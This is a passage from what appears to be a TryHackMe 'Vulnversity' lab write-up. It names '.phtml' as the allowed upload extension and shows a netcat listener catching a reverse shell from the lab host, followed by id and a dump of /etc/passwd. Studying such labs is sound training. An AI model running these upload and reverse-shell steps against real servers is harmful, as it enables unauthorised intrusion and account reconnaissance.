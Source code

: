 Run this attack, what extension is allowed?

ANS: `.phtml`
	
#### #5. What user was running the web server?

```
╭─twseptian@twsterlab ~/lab/THM/rooms/vulnversity 
╰─$ nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.201.124.
Ncat: Connection from 10.10.201.124:35578.
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:36:38 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
go to `/home/bill` and find `user.txt`

